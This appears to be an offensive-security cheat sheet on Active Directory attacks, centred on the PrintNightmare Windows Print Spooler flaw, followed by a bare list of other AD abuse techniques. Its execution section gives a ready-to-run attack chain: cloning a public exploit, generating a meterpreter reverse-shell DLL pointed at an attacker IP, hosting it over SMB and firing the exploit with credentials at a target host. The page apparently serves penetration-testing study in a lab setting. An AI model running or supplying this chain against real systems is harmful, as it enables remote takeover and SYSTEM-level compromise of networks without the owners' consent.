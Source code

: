 # active directory attacks enumeration


























## PrintNightmare

PrintNightmare is a critical security vulnerability (CVE-2021-34527) discovered in the Windows Print Spooler service, which is responsible for managing print jobs on a Windows system. The vulnerability allows attackers to remotely execute code with system-level privileges, potentially leading to full system compromise.

### Overview of PrintNightmare (CVE-2021-34527)
- **Affected Component:** Windows Print Spooler service.
- **Vulnerability Type:** Remote Code Execution (RCE).
- **Impact:** Allows remote attackers to execute arbitrary code on affected systems with SYSTEM privileges, potentially taking full control of the system.
- **Discovery Date:** June 2021.
- **Affected Versions:** Various versions of Windows, including Windows 7, 8, 10, and Windows Server editions.

### How PrintNightmare Works
The vulnerability stems from improper handling of print spooler requests, allowing an attacker to inject malicious code into the spooler service. An attacker could exploit this vulnerability to gain elevated privileges and execute arbitrary code on the affected system.

1. **Remote Code Execution:** An attacker can remotely trigger the vulnerability by sending a specially crafted print job or by remotely interacting with the vulnerable Print Spooler service, typically through SMB (Server Message Block) or RPC (Remote Procedure Call).
  
2. **Privilege Escalation:** Once an attacker can execute code in the context of the Print Spooler service, they can achieve SYSTEM-level privileges, allowing them to perform actions such as installing malware, altering system configurations, and compromising sensitive data.

3. **Exploitation Vector:** Since the vulnerability is present in the Print Spooler service, an attacker doesn't need physical access to a system to exploit it, making it a high-risk vulnerability for remote exploitation.


### Exploitation Scenarios
- **Remote Attacks:** Attackers can exploit the vulnerability remotely via network protocols like SMB or RPC to compromise machines that have the Print Spooler service running.
- **Local Attacks:** If an attacker has local access to a machine, they could leverage this vulnerability to escalate privileges to SYSTEM and take control of the system.

### Execution
Install PrintNightmare from cube0x0 exploit using git from a Linux-based host

    git clone https://github.com/cube0x0/CVE-2021-1675.git

    also try

    https://github.com/dievus/printspoofer

Check if a Windows target has MS-PAR & MSRPRN exposed

    rpcdump.py @172.16.5.5 | egrep 'MS-RPRN|MS-PAR'

Generate a DLL payload to be used by the exploit to gain a shell session.

    msfvenom -p windows/x64/meterpreter/reverse_tcp LHOST=10.129.202.111 LPORT=8080 -f dll > backupscript.dll

Create an SMB server and host a shared folder (CompData) at the specified location on the local linux host. This can be used to host the DLL payload that the exploit will attempt to download to the host.


    sudo smbserver.py -smb2support CompData /path/to/backupscript.dll

Executes the exploit and specifies the location of the DLL payload

    sudo python3 CVE-2021-1675.py inlanefreight.local/<username>:<password>@172.16.5.5 '\\10.129.202.111\CompData\backupscript.dll'






Active Directory Certificate Services (AD CS) attacks
Kerberos Constrained Delegation
Kerberos Unconstrained Delegation
Kerberos Resource-Based Constrained Delegation (RBCD)
Kerberos: Silver Tickets


WriteOwner abused with Set-DomainObjectOwner
WriteDACL abused with Add-DomainObjectACL
AllExtendedRights abused with Set-DomainUserPassword or Add-DomainGroupMember
Add Members abused with Add-DomainGroupMember